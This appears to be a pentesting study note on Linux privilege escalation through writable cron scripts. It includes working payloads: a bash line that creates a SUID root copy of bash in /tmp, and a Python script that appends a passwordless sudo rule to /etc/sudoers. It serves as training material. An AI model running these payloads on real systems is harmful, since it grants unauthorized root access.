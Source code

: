## Escalation Path: Scheduled Tasks
- Cron is a job scheduler in Unix-based operating systems. Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server.
- By default, Cron runs as root when executing /etc/crontab, so any commands or scripts that are called by the contab will also run as root.
- We can view the information of cronjob with
  - `cat /etc/crontab`
- We can also use [pspy](https://github.com/DominicBreuker/pspy) to detect a cron job
  - `./pspy64 -pf -i 1000`

**Editing Script File**
- When a script executed by Cron is editable by unprivileged users, one can edit the script file to escalate the privilege.
- Script
```bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
- Make it executable: `chmod +x script.sh`
- `/tmp/bash -p`
- or with Python
```python
#!/usr/bin/python3.9
import os
import sys
try:
	os.system('echo "current-user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers')
except:
	sys.exit()
```
- Make it executable: `chmod +x script.py`
- In some time, we should have had the root shell.

**Exploiting Wildcards in Commands**
- Commands can use wildcards as arguments to perform actions on more than one file at a time, also called globbing. When the command is assigned to a cronjob, contains a wildcard operator then attacker can go for wildcard injection to escalate privilege.

## Escalation Path: NFS Root Squashing

## Escalation Path: Docker

## References
- https://macrosec.tech/index.php/2021/06/08/linux-privilege-escalation-techniques-using-suid/
- https://tryhackme.com/room/linuxprivescarena
- https://academy.tcm-sec.com/courses/enrolled/1154399